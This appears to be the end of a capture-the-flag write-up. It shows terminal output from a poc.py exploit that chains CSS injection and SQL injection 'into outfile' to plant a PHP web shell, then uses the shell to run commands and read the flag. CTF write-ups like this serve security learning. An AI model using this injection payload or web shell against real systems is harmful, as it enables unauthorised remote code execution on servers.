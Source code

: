 ```plaintext
❯ python3 poc.py
[+] FILANAME : 367455.php
[+] MEMODATA : {'memoTitle': 'asdf', 'memoColor': 'aqua}.content{background: url(\'/check.php?id=9999999 union select concat(char(60),"?php echo system($_GET[\\\'cmd\\\']); ?",char(62)) into outfile "/tmp/367455.php"\')', 'memoContent': 'asdf'}

[+] Enable webshell!!
[+] Enter the command : id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Enter the command : pwd
/var/www/html
/var/www/html
[+] Enter the command : ls / | grep '^flag'
flag_47ef1a0fd43364198f2422159badba75
flag_47ef1a0fd43364198f2422159badba75
[+] Enter the command : cat /flag_47ef1a0fd43364198f2422159badba75
GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}
[+] Enter the command : 
```
```plaintext
FLAG : GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}
```

---
<script>
  link = document.createElement('link');
  link.setAttribute('rel', 'shortcut icon');
  link.setAttribute('type','image/x-icon');
  link.setAttribute('href','https://kr.object.ncloudstorage.com/dreamhack-content/ctf/65931ceea93ae773bbc9db3692e3ad9966557054aa51905986c86c68af34ee69.png');
  head = document.getElementsByTagName('head');
  head[0].appendChild(link);
</script>
